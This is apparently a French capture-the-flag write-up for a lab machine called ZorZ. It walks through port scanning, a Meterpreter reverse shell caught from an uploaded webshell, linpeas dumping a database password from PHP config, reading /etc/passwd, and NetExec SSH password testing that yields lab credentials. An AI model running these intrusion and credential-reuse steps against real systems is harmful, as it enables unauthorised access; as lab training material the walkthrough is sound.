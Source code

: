 # ZorZ

1.Énumération

**<span style="color: #dddddd;">👁️</span> Massap**

```
┌─[m0rph3u53@parrot]─[~/Documents]
└──╼ $sudo sh massap.sh

   *                                
 (  `                               
 )\))(      )             )         
((_)()\  ( /(  (   (   ( /(  `  )   
(_()((_) )(_)) )\  )\  )(_)) /(/(   
|  \/  |((_)_ ((_)((_)((_)_ ((_)_\  
| |\/| |/ _` |(_-<(_-</ _` || '_ \) 
|_|  |_|\__,_|/__//__/\__,_|| .__/  
                            |_|     

by M0rPH3U53
      
[i] Scan IP: 192.168.56.165
[i] Rate: 1000
 
[+] Scan Masscan 192.168.56.165...100%
[+] Scan Nmap 192.168.56.165...100%
 
[+] 80/tcp open
[+] 22/tcp open
 
==========================================================
|                         Rapports                       |
==========================================================
| Nmap:/home/parrot/Massap/192.168.56.165-tcp.html       |
==========================================================
```

&nbsp;

Le serveur est un `uploader` de fichier

![Capture du 2025-03-16 17-27-58.png](../../_resources/Capture%20du%202025-03-16%2017-27-58.png)

&nbsp;

**<span style="color: #dddddd;">💥</span> Metasploit - webshell**

Connexion  la webshell

```
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
[*] Started reverse TCP handler on 192.168.56.149:4444 
[*] Sending stage (40004 bytes) to 192.168.56.165
[*] Meterpreter session 1 opened (192.168.56.149:4444 -> 192.168.56.165:52845) at 2025-03-16 17:27:25 +0100

(Meterpreter 1)(/var/www/html/uploads3) >
```

&nbsp;

&nbsp;<span style="color: #dddddd;">🤖</span> **Linpeas**

Voyons si `linpeas` trouve des mots de passe

```
www-data@zorz:/tmp$ sh linpeas.sh

╔══════════╣ Searching passwords in config PHP files
$dbpass='toor2600root';
$dbuser='phpmyadmin';

```

&nbsp;

Énumération des utilisateurs

```
www-data@zorz:/tmp$cat /etc/passwd | grep 'bin/bash'
root:x:0:0:root:/root:/bin/bash
user:x:1000:1000:user,,,:/home/user:/bin/bash
```

&nbsp;

**<span style="color: #dddddd;">🖥️</span> NetExec**

Test du mot de passe sur les 2 utilisateurs

```
┌─[m0rph3u5@parrot]─[~/Documents]
└──╼ $nxc ssh 192.168.56.165 -u user.txt -p 'toor2600root' --sudo-check
SSH         192.168.56.165  22     192.168.56.165   [*] SSH-2.0-OpenSSH_6.6.1p1 Ubuntu-2ubuntu2
SSH         192.168.56.165  22     192.168.56.165   [-] root:toor2600root
SSH         192.168.56.165  22     192.168.56.165   [+] user:toor2600root (Pwn3d!) Linux - Shell access!

```

&nbsp;

Identifiant trouver

| Users | Password |
| --- | --- |
| user | toor2600root |

&nbsp;

&nbsp;

&nbsp;

&nbsp;

